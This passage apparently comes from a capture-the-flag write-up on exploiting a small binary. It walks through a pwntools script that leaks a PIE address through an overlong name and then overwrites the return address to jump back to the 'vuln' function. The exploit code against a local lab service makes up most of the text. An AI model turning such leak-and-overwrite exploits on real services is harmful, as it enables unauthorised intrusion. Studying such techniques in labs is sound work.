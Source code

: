 ![](https://i.imgur.com/lJCMKvN.png)

If we fill up 8 bytes, the next bytes will be `0x000000000b2688a8` which is an adrress we can use to calculate PIE.

With a name of 8 characters, we can see the address get leaked. 

![](https://i.imgur.com/MstBCOy.png)

I then subtract the offset of the leak (2058) from the leak to calculate the PIE address:

```python
from pwn import *

io = remote("127.0.0.1",1337)

name = b"A"*8
message = b"A"*0x20
message += b"B"*8
message += b"C"*8

io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
io.sendlineafter(b"message now: ",message)
```
![](https://i.imgur.com/rq8MHTr.png)

Reorganizing the poc will let us change the `0x4343434343434343` to the address of the vuln function so we can then abuse this leak again.

Script is now:
```python
from pwn import *
context.binary = elf = ELF("./vuln")

io = remote("127.0.0.1",1337)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln'])
io.sendlineafter(b"message now: ",message)

io.interactive()
```
